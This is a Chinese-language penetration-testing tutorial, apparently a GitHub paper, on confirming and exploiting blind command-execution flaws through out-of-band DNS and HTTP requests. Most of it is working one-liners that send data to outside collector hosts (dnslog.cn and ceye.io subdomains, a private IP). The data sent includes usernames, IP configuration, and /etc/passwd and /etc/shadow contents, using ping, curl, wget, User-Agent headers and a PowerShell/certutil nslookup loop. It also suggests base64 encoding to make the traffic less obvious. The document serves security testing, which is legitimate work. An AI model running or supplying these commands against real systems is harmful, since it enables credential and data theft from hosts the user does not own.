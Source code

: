 # 针对无回显漏洞的利用方式

不同的markdown阅读器渲染导致`的显示不一致，请大家注意,如果命令出现错误，将反引号前的反斜杠去掉即可。

在日常检测中会遇到一些漏洞，他们无直接的回显，常规的方法比较难以确认漏洞是否存在。比如无回显的命令执行漏洞，比较耗时的时间型盲注和布尔型盲注。针对这些漏洞可以以带外查询的方式来进行漏洞验证。本篇中的内容以无回显的命令执行漏洞为例进行简要说明。

## 带外查询常见的方式

常见于dns和http协议。这里dns协议一般借助第三方或自建的平台，hhtp协议的话自己搭建个http的服务器就行，但需要有公网。以下就来介绍windows和linux平台下针对这两种协议的利用方式。

首先介绍两个第三方的平台,这两个平台目前都免费。个人使用感觉，DNSlog平台无需登陆，且服务较为稳定，但是只能记录DNS的请求，因为DNS的请求被限制在63个字符长度大小，因此使用此平台提取信息的话长度上限较小，因此推荐使用此平台进行漏洞验证，而不进行信息提取。CEYE平台功能就比DNSlog强大许多，可以记录http和DNS请求的记录，但是需要注册账号后登录后才能使用，且有时会无法访问，有可能是我这里的网络问题。  
DNSlog: <http://www.dnslog.cn/>  
CEYE: <http://ceye.io/>  

## Linux下DNS协议的应用

1. 在linux下，使用 ` (反引号，上分割符)括起来的字符串会被shell解释为命令行，在执行时，shell首先执行该命令行，并以它的标准输出结果取代整个反引号部分。这样就可以输出一些信息，如果在子域名中加入对应的编号后，即便是批量的测试仍可以精确定位问题主机。  
![oob1](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob1.png)  
![oob2](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob2.png)  
![oob3](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob3.png)  

2. 如果使用ping命令进行dns查询，那一定需要注意，因为ping在windows上是只执行4次，但在linux上很多情况下是一直执行下去的，因此需要做一下次数限制  
在linux下：ping -c 1 www.baidu.com  
![oob4](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob4.png)  
在windows下：ping -n www.baidu.com  
![oob5](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob5.png)  

3. 如果需要兼容windows和linux的命令，那就需要 ||  
|| 是或逻辑，如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。因此以下的命令兼容windows和linux  
ping -c 1 baidu.com || ping -n baidu.com  
![oob6](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob6.png)  
![oob7](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob7.png)  

4. linux下提取IP信息 - 通用方法，其他命令回显也类似  
网上给出的命令如下，经测试存在一些问题，比如存在多个网卡会导致查询有遗漏，去掉eth0会因为多个IP间的换行符导致查询失败。这里我测试的机器是一个双网卡，分别使用了如下两条命令，均未能查询出全部结果  
ping -c 1 \`ifconfig eth0|grep "inet "|awk '{print $2}'\`.test.code2sec.com  
ping -c 1 \`ifconfig |grep "inet "|awk '{print $2}'\`.test.code2sec.com  
![oob8](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob8.png)  
![oob9](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob9.png)  
所以针对这个命令做了以下改进，将换行替换为 - ，这样即可正常查询。这样做的限制是，如果这台主机的IP地址实在太多，导致超出DNS允许的查询范围，那就可能出问题。像这样将换行替换为 - 的方式在处理多行数据的传输时是比较常见的方案，如果觉得太明显还可以使用base64加密后进行传输，下文有相关的方法。  
ping -c 1 \`ifconfig |grep "inet "|awk '{print $2}'|tr '\n' '-'\`.p8111g.dnslog.cn  
![oob10](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob10.png)  
![oob11](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob11.png)  

5. 这里也给出一种利用dns进行大文件或多行数据传输的方法  
var=11111 && for b in $(ifconfig|xxd -p ); do var=$((var+1)) && ping -c 1 $var.$b.d111jc.ceye.io; done  
![oob19](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob19.png)  
![oob20](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob20.png)  

6. 一些备用的命令  
host  |  dig  

## Linux下http协议的应用

1. http协议就建议使用CEYE或者自建定位DNS平台  
curl \`whoami\`.oyylol.dnslog.cn  
![oob12](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob12.png)  
![oob13](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob13.png)  
curl "http://ttt.d555jc.ceye.io/?\`whoami\`"  
![oob14](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob14.png)  
![oob15](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob15.png)  

2. 上面的命令在输出单行结果的时候没有问题，但是如果有多行输出的话，就需要更换方法了  
比如输出ifconfig的结果，这里的方案是将输出的结果base64加密后，再将换行替换为- ,当然这里传输出来的数据是经过base64加密的，需要解码才能得到原始数据  
curl http://d666jc.ceye.io/\`ifconfig|base64|tr '\n' '-'\`  
![oob16](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob16.png)  
如果数据较长，比如读取/etc/passwd文件的结果，可以使用CEYE来接受POST数据包  
curl -X POST http://66666c.ceye.io/  -d data=\`cat /etc/passwd|base64|tr '\n' '-'\`  
![oob17](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob17.png)  
wget 也是可以的  
wget --post-data exfil=\`cat /etc/passwd|base64|tr '\n' '-'\`  http://d999jc.ceye.io  
![oob18](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob18.png)  

3. wget制定header头查看日志回显  
这里采用的是IIS服务器来接收User-Agent的方式进行数据接收  
先介绍一个linux命令   sed  
sed  -n  3p   /etc/passwd     只打印文件的第三行 - 主要用的这个  
sed  -n  '2,6p'  /etc/passwd    打印第2至6行  
![oob21](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob21.png)  
搭建一个web服务端接收数据，这里测试使用的是一个 win2003的iis，User-Agent 需打开(默认)  
![oob22](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob22.png)  
wget -d --header="User-Agent: $(sed -n 1p  /etc/passwd)" http://192.168.3.31:83/  
![oob23](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob23.png)  
![oob24](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob24.png)  
类似的curl命令也是可以的  
curl -H "User-Agent: 11  $(sed 1p  /etc/shadow)" http://192.168.3.31:83/  
![oob25](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob25.png)  
![oob26](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob26.png)  

## Windows下DNS协议的应用

1. 漏洞验证
ping %USERNAME%.xxx.ceye.io  
![oob27](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob27.png)  
![oob28](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob28.png)  

2. 大文件或多行数据传输  
使用十六进制对命令编码，Get-Content读取文件替换十六进制后为空的字符串，循环发送，并用11111标记标记循环的次数解析发送数据，这个接收数据需要提取、拼接加解码后方可还原出数据。  
ipconfig > test && certutil -encodehex -f test test.hex 4 && powershell $text=Get-Content test.hex;$sub=$text -replace(' ','');$j=11111;foreach($i in $sub){ $fin=$j.tostring()+'.'+$i+'.jf1117.ceye.io';$j += 1; nslookup $fin }  
![oob29](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob29.png)  

## Windows下http协议的应用

1. 使用浏览器，不过没人会这么用吧，直接弹出来个浏览器，是个人都能看出来电脑有问题了。  
![oob30](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob30.png)  

2. 使用 powershell 的http请求方法  
powershell.exe curl -uri http://192.168.3.33:8000 -method get  
上面这条命令win7下执行失败，win10下执行成功，原因是powershell版本原因，3.0  以后的版本支持这条命令，win7是2.0  
![oob31](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob31.png)  
查看当前的powershell版本：  powershell.exe  get-host  
下面这个图可做参考，但是有错误，比如我  win7 sp1  的 powershell 版本就是2.0的  
![oob32](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob32.png)  
![oob33](https://raw.githubusercontent.com/1120362990/Paper/master/images/oob33.png)  

## 测试过程参考了大量的网上资料
